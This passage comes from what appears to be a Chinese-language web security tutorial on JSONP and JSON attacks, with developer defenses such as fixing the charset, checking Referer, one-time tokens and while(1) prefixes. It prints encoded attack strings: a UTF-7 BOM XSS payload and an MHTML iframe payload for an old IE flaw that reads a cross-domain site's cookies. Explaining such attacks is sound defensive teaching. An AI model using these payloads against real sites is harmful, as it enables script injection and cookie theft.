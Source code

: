 其中：

    %2B%2Fv8
    %20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAY
    wByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADsAPAAv
    AHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8
    AaAB0AG0APg-%20

URLdecode 为：

    +/v8
    +ADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAY
    wByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADs
    APAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkA
    HkAPgA8AC8AaAB0AG0APg-

其中 +/v8  为 utf7-BOM ，后面的为我们注入的 utf-7 编码后的 XSS 代码的：

    <htm><body><script>alert(1);</script></body></htm>

这次利用 utf7-BOM 的方法是一个非常有代表性的通用方法，IE 后面的升级也是做一定的防御，

另外在开发者角度也给出了防御方法直接强制指定 Content-Type里的编码 ( Content-Type: application/json; charset=utf-8 ) 

对于现在的浏览器上，虽然没有比较通用的技巧，但是对于开发者本事过滤的机制一样可能存在各种绕过的可能。

##### 严格安全的实现 CSRF 方式调用 JSON 文件：限制 Referer 、部署一次性 Token 等

##### 严格限制对 JSONP 输出 callback 函数名的长度

##### 其他

其他一些比较“猥琐”的方法：如在 Callback 输出之前加入其他字符(如：/**/、回车换行)这样不影响 JSON 文件加载，又能一定程度预防其他文件格式的输出。

还比如 Gmail 早起使用 AJAX 的方式获取 JSON ，听过在输出 JSON 之前加入 while(1) ;这样的代码来防止 JS 远程调用。

## 其他文件格式（ Content-Type ）与 JSON

### MHTML 与 JSONP

在 2011 年 IE 曾经出现过一个听过 mhtml 协议解析跨域的漏洞：一个常见利用就是利用 JSONP 调用机制里的 Callback 函数名输出点：

    <iframe src="mhtml:http://127.0.0.1/getUsers.php?callback=Content-Type%3A%20multipart%2Frelated%3B%20boundary%3D_boundary_by_mere%0D%0A%0D%0A--_boundary_by_mere%0D%0AContent-Location%3Acookie%0D%0AContent-Transfer-
    Encoding%3Abase64%0D%0A%0D%0APGJvZHk%2BDQo8aWZyYW1lIGlkPWlmciBzcmM9Imh0dHA6Ly93d3cuODB2d
    WwuY29tLyI%2BPC9pZnJhbWU%2BDQo8c2NyaXB0Pg0KYWxlcnQoZG9jdW1lbnQuY29va2ll
    KTsNCmZ1bmN0aW9uIGNyb3NzY
    29va2llKCl7DQppZnIgPSBpZnIuY29udGVudFdpbmRvdyA%2FIGlmci5jb250ZW50V2luZG93I
    DogaWZyLmNvbnRlbnREb2N1bWVudDsNCmFsZXJ0KGlmci5
    kb2N1bWVudC5jb29raWUpDQp9DQpzZXRUaW1lb3V0KCJjc
    m9zc2Nvb2tpZSgpIiwxMDAwKTsNC
    jwvc2NyaXB0PjwvYm9keT4NCg%3D%3D%0D%0A--_boundary_by_mere--%0D%0A!cookie"></iframe>


这个点就充分利用了 callback 输出点直接输出一个 mhtml 文件格式，然后利用 调用 mhtml 标签解析并执行 html 及 javascript 代码，

